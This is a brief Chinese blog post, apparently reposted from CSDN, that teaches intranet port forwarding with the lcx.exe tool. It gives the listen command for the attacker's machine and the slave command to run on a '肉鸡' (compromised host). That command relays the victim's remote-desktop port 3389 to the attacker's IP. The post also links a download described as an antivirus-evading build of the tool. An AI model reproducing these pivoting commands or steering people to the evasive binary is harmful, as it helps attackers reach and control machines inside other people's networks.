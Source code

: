 ```yaml
---
title: lcx.exe内网转发命令教程 + LCX免杀下载
categories: 精通渗透系列
tags: lcx 端口 转发
---
```

转载请注明出处：https://blog.csdn.net/l1028386804/article/details/84625404

本机: lcx -listen 2222 3333

2222为转发端口，3333为本机任意未被占用的端口

肉鸡：lcx -slave 192.168.109.137 2222 127.0.0.1 3389

192.168.109.137 为本机IP,2222为转发端口，127.0.0.1为肉鸡内网IP，3389为远程终端端口

3389连接时格式 127.0.0.1:3333

下载地址：https://download.csdn.net/download/l1028386804/10816160

